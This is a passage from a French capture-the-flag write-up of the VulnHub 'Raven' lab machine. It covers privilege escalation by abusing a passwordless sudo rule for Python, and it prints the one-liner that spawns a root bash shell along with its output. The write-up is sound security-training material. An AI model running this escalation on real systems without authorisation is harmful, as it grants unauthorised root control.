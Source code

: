 ```console
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux
```

## Élévation de privilèges avec le binaire python

L'objectif est désormais de devenir root sur le serveur Raven. L'utilisateur ```steven``` est autorisé à exécuter la commande ```/usr/bin/python``` via sudo sans mot de passe. Un petit tour sur l'excellent site [GTFOBins](https://gtfobins.github.io/gtfobins/python/) nous permet d'obtenir un snippet pour élever nos privilèges et passer root avec python.

```console
$ sudo -l
Matching Defaults entries for steven on raven:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steven may run the following commands on raven:
    (ALL) NOPASSWD: /usr/bin/python

$ sudo /usr/bin/python -c 'import os; os.system("/bin/bash")'

root@Raven:/home/steven# id
uid=0(root) gid=0(root) groups=0(root)

root@Raven:/home/steven# wc -c /root/flag4.txt
442 /root/flag4.txt
```

```flag2.txt``` se situe dans le répertoire ```/var/www/```, tandis que ```flag3.txt``` est un article brouillon (_draft_), en attente de publication sur le site WordPress. Merci beaucoup à [William McCann](https://wjmccann.github.io/) pour avoir créé ce challenge, hâte de dénicher le premier flag puis de m'attaquer à [Raven: 2](https://www.vulnhub.com/entry/raven-2,269/), sa seconde VM ! PS : ça y est, enfin trouvé, il était habilement dissimulé dans le code source de la page ```service.html``` !
